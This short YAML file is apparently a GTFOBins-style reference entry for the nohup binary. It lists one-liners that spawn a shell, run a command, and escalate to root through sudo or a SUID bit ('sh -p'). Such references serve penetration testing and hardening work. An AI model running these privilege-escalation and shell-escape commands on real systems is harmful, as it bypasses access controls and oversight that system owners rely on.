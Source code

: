 ```yaml
---
functions:
  shell:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/bin/id'
        nohup "$COMMAND"
        cat nohup.out
  sudo:
    - code: sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  suid:
    - code: sudo nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
---
```

